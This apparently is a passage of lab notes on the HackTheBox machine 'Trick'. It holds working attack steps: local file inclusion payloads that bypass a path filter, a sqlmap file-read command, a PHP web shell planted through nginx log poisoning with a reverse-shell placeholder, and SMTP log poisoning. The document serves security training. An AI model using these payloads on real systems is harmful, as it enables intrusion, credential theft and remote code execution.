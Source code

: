 ```
```

Notes:
- The new domain doesn't append `.php` extension on the GET request.
- PHP code filters combination of `../`
- Based on `/proc/self/cmdline`, we know that the web is running as user michael
- We got the private key, it means that we can try to log in as michael. Save id_rsa as michael.key
- Future forward, the `/proc/self/environ` is owned by root and it can't be read by michael. It is not normal, maybe nginx is downgrading all permissions from root to michael.
	- You can test this by sending LFI payload to `....//....//....//....//proc/self/stat` and take notes of process id
	- On the ssh session later, go to `/proc/<process_id>` and `/proc/<process_id>` look for `environ` folder.
	- The environ folder is owned by root.


> Maybe you don't need SQLi below? by using LFI?
> What is /proc/self folder?
> Range HTTP?
> Understand of how stacks work: ps -ef | grep 2904

## SQL Injection 3
On  `preprod-marketing.trick.htb`
```
sqlmap -r <login-page-request-file> --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/var/www/market/index.php
```

Notes:
- To get the source code on `/var/www/market/index.php`
- You can get the php filter

Try these:
```php
php -a

$file = "../../../../etc/passwd";
echo str replace("../","",$file);

$file = "....//....//....//...//etc/passwd";
echo str replace("../","",$file);
```

# Alternatives
## Poisoning Nginx Log
LFI to nginx log
```
....//....//....//....//var/log/nginx/access.log

# poisen user agent
User-Agent: <?php system($_GET['cmd']); ?>

# command injection through cmd
....//....//....//....//var/log/nginx/access.log&cmd=id
....//....//....//....//var/log/nginx/access.log&cmd=<reverse shell>
```
- Be careful, if you do a mistake when entering PHP webshell, this method is no longer available.
## Poisoning SMTP
Poison SMTP log
```
nc -v trick.htb 25
helo trick.htb
mail from:<cyberkarta@domain.cc>
```